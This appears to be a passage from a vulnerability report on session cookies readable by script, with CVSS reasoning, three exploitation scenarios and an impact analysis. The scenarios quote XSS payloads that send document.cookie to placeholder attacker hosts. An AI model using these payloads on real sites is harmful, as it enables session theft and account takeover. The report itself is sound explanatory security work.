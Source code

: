 - **No privileges (N) required**: The attacker doesn't need any privileges to exploit this vulnerability beyond what's needed to trigger the XSS.

- **User interaction (R) required**: Exploitation typically requires user interaction, such as clicking a malicious link or visiting a page containing the XSS payload.

- **Unchanged (U) scope**: The vulnerability affects only the same security authority (the web application itself).

- **High (H) confidentiality impact**: This vulnerability allows complete exposure of sensitive session tokens, which contain authentication information and can lead to full account compromise.

- **Low (L) integrity impact**: If an attacker hijacks a session, they can perform actions as the victim user, potentially modifying data.

- **None (N) availability impact**: This vulnerability doesn't directly affect system availability.

The severity remains Medium because while the confidentiality impact is high (session tokens are highly sensitive), the attack complexity is also high due to the dependency on an XSS vulnerability.

# Exploitation Scenarios
**Scenario 1: Comment-Based XSS Attack**
An attacker discovers that the application's comment feature doesn't properly sanitize user input. They post a comment containing malicious JavaScript: `<script>fetch('https://evil-domain.com/steal?cookies='+encodeURIComponent(document.cookie))</script>`. When other users view the page containing this comment, their browsers execute the script, sending their session cookies to the attacker's server. The attacker then uses these session identifiers to impersonate legitimate users.

**Scenario 2: Phishing with XSS Payload**
An attacker sends targeted emails to application users, containing links to the legitimate application but with XSS payloads in the URL parameters, like: `https://legitimate-app.com/search?q=<script>document.write('<img src="https://attacker.com/log?c='+document.cookie+'"/>')</script>`. If the search feature is vulnerable to XSS, when users click this link, their session cookies are transmitted to the attacker's server, allowing session hijacking.

**Scenario 3: Stored XSS in User Profile**
An attacker updates their own profile with malicious JavaScript in a field that's later displayed to other users (like a bio or status). When administrators or other users view the attacker's profile, the script executes in their browsers: `<script>let img = new Image(); img.src = 'https://malicious-logger.com/log?data='+document.cookie;</script>`. This gives the attacker access to high-privilege session tokens, potentially allowing administrative access.

# Impact Analysis
**Business Impact:**
- Unauthorized access to user accounts leading to data breaches and privacy violations
- Potential financial losses through fraudulent transactions executed via hijacked sessions
- Damage to company reputation and loss of customer trust when breaches are disclosed
- Legal and regulatory consequences, particularly for applications handling personal data (GDPR, CCPA)
- Increased customer support costs dealing with compromised accounts
- Possible intellectual property theft if administrative or privileged sessions are compromised

**Technical Impact:**
- Complete session hijacking allowing attackers to impersonate legitimate users
- Unauthorized access to sensitive user information within the application
- Potential privilege escalation if an administrator's session is compromised
- Ability to perform unauthorized transactions or operations within the application
- Possible use of compromised sessions for further attacks against the application
- Side-stepping of authentication controls without needing actual credentials
- Potential for persistent exploitation if the attacker can maintain access
